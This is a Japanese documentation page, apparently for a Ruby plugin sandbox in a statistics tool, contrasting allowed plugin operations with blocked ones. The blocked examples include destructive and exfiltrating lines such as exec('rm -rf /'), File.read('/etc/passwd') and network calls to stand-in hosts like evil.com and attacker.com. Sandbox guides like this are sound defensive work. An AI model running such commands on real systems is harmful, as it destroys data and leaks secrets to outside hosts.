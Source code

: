 #### **文字列操作**
```ruby
# ✅ 安全 - 基本的な文字列処理
text = "Hello, World!"
text.upcase
text.gsub(/world/i, "Ruby")
text.split(",")
```

#### **統計計算**
```ruby
# ✅ 安全 - 統計分析メソッド
NumberAnalyzer.mean([1, 2, 3, 4, 5])
NumberAnalyzer.median(data)
NumberAnalyzer.correlation(x_data, y_data)
```

### **❌ 禁止される操作**

#### **動的コード実行**
```ruby
# ❌ 危険 - 動的コード実行は禁止
eval("malicious_code")           # SecurityError
instance_eval("system('rm -rf')")  # SecurityError
class_eval("dangerous_method")    # SecurityError
```

#### **システムコマンド実行**
```ruby
# ❌ 危険 - システムコマンドは禁止
system("curl http://evil.com")    # SecurityError
exec("rm -rf /")                  # SecurityError
`ls -la`                         # SecurityError
Process.spawn("malware")         # SecurityError
```

#### **ファイルシステムアクセス**
```ruby
# ❌ 危険 - 直接的なファイルアクセスは禁止
File.read("/etc/passwd")         # SecurityError
Dir.glob("**/*")                 # SecurityError
IO.read("sensitive_file.txt")    # SecurityError

# ✅ 代替案 - プラグインAPIを使用
plugin_api.read_data_file("input.csv")  # OK (権限があれば)
```

#### **ネットワークアクセス**
```ruby
# ❌ 危険 - 直接的なネットワークアクセスは禁止
Net::HTTP.get("evil.com", "/steal-data")  # SecurityError
TCPSocket.open("attacker.com", 80)        # SecurityError

# ✅ 代替案 - 許可されたAPIエンドポイントのみ
plugin_api.fetch_data("https://api.allowed-domain.com/data")  # OK (権限があれば)
```
